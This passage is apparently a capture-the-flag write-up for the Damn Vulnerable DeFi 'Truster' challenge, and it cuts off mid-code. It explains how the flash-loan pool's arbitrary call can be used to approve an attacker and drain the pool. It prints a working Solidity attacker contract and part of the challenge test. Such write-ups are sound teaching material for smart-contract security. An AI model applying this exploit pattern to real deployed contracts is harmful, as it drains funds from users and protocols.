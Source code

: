 In particular, we can approve an attacker contract for the entire pool balance of DVT tokens! (Notice that we need to specify `amount = 0` when calling `flashLoan` for this to work. Otherwise, we'll trigger the `RepayFailed()` error.)

Once `TrusterLenderPool` has approved us to transfer funds on its behalf, we can use `transferFrom` to drain the entire pool.

_TrusterAttacker.sol_
```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import "./TrusterLenderPool.sol";

contract TrusterAttacker {
    DamnValuableToken public immutable token;
    TrusterLenderPool public immutable pool;

    constructor(DamnValuableToken _token, TrusterLenderPool _pool) {
        token = _token;
        pool = _pool;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), 1_000_000 ether);
        pool.flashLoan(0, address(this), address(token), data);
        token.transferFrom(address(pool), msg.sender, 1_000_000 ether);
    }
}
```

_truster.challenge.js_
```javascript
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("[Challenge] Truster", function () {
  let deployer, player;
  let token, pool;

  const TOKENS_IN_POOL = 1000000n * 10n ** 18n;

  before(async function () {
    /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
    [deployer, player] = await ethers.getSigners();

    token = await (
      await ethers.getContractFactory("DamnValuableToken", deployer)
    ).deploy();
    pool = await (
      await ethers.getContractFactory("TrusterLenderPool", deployer)
    ).deploy(token.address);
    expect(await pool.token()).to.eq(token.address);

    await token.transfer(pool.address, TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);

    expect(await token.balanceOf(player.address)).to.equal(0);
  });

  it("Execution", async function () {
    /** CODE YOUR SOLUTION HERE */
    attacker = await (
```